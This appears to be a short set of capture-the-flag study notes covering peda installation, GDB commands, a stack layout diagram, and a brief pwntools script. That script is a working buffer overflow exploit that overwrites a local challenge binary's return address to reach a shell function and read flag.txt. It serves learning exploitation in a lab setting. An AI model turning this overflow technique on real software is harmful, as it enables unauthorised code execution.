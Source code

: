 # peda
```sh
git clone https://github.com/longld/peda.git ~/peda
echo "source ~/peda/peda.py" >> ~/.gdbinit
echo "DONE! debug your program with gdb and enjoy"
```
# pwntools
```python
from pwn import *

context.binary = "./pwn1"

p = process()
p.sendline(b"A" * 128 + b"a" * 12 + p32(context.binary.functions["shell"].address))
p.sendline(b"cat flag.txt")
log.success(p.recvline_regex(rb".*{.*}.*").decode("ascii"))
```
# GDB commands
- `r` run
- `c` continue
- `b <function_name>` breakpoint or `b <linenumber>`
- `file <file>` load file
- `x/Nuf expr`: examine memory at address expr
  - N how many units to display
  - u unit size; one of b(individual bytes), h (halfwords = 2B), w (words = 4B), g (giant words = 8B)
  - f printing format (any print format) or s (s null-terminated string) i (machine instructions)
Ex: `x/168x $sp' (4 byte chunks by default) $sp = stack pointer, $rip = instruction pointer

# Stack representation
```
+---------------+ <- SP
|     locals    |
+---------------+ <- BP
|       BP      |
+---------------+
|    ret add    |
+---------------+
```
